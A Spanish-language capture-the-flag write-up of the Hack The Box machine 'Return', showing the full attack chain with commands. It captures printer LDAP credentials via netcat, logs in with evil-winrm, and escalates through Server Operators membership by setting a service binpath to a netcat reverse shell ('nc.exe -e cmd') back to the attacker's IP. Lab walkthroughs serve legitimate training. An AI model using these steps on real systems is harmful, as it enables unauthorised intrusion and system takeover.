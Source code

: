 # HTB-Return `10.10.11.108`

*Abusing Printer*

*Abusing Server Operators Group*

*Service Configuration Manipulation*

### Intrusión
Como siempre empezamos con nuestra sentencia nmap

```
nmap -p- --open -sS -sCV --min-rate 5000 -n -Pn -vvv 10.10.11.108 -oN Targeted
```
 
 ![samba](images/sambaaaaaaaa.jpg)
 
 
 ![gordo](images/gordoooo.jpg)

Descubrimos varios puertos interesantes abiertos, entre ellos:
`
80,135,139,389 y 445.
`

Vamos a empezar examinando la web, encontramos un directorio público en el que parece que nos conectamos a una impresora a través de una dirección y el puerto 389.

 ![WEB](/images/web_ini.jpg)
 
 
Podemos comprobar que la contraseña no es una contraseña como tal, es solo texto.
Se me ocurre que podemos ver si tenemos conexión con ese formulario, para ello introducimos nuestra dirección IP.

![serv_add](/images/serv_add.jpg)

Y abrimos tcpdump por el adaptador red de la VPN.

```
tcpdump -i tun0 -n icmp
```
 
Al hacer click en update, podemos ver que nos llegan paquetes HTTP.

![resp](/images/resuesta.jpg)
 
Vamos a intentar escuchar por el puerto indicado, el 389, con netcat:

![nc](/images/nc.jpg)

Y vaya, tenemos credenciales.

`
svc-printer:1edFg43012 !!
`

Si las probamos en crackmapexec podemos ver que son credenciales válidas para SMB.

```
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```

![crack](/images/crackmapexec.jpg)

Lo podemos comprobar con smbmap

```
smbmap -H 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```

![smb](/images/smbmap.jpg)
 
Vamos a realizar la intrusión en la máquina usando evil-winrm (gem install evil-winrm)

```
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```

![winrm](/images/winrm.jpg)

*Y hemos logrado entrar en la máquina y obtener la primera flag.*


### Escalada de Privilegios
Si hacemos un `whoami /priv` obtenemos varios medios por los que escalar privilegios.

Si hacemos un `whoami /groups` nos llama la atención Server Operators
 
![groups](/images/groups.jpg)

“A built-in group that exists only on domain controllers. By default, the group has no members. Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer.”
Vamos a intentar modificar un servicio como dice aquí [https://cube0x0.github.io/Pocing-Beyond-DA/](https://cube0x0.github.io/Pocing-Beyond-DA/)


Vamos a subir netcat a la máquina víctima

![loc](/images/locate_nc.jpg)

![impacket](/images/Impacket.jpg)

![copy](/images/copy.jpg)
 

Vamos a ver que servicios hay activos: `services`

![servicios](/images/images.jpg)
 
*Inicialmente se va probando con cada servicio, hasta que nos deje con uno de ellos:*

Intentamos cambiar el servicio VSS con binpath, indicándole que nos mande una Shell con netcat

```
sc.exe config VSS binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.11 443
```

![binpath](/images/binpath.jpg)
 
Intentamos parar el servicio, pero no está iniciado.

![stop](/images/stop.jpg)

Así que lo iniciamos, abriendo un puerto de escucha antes en nuestra máquina

![nc2](/images/nc2.jpg)

![start](/images/start.jpg)

Recibimos exitosamente una Shell

![admin](/images/admin.jpg)

Completando la máquina exitosamente
  

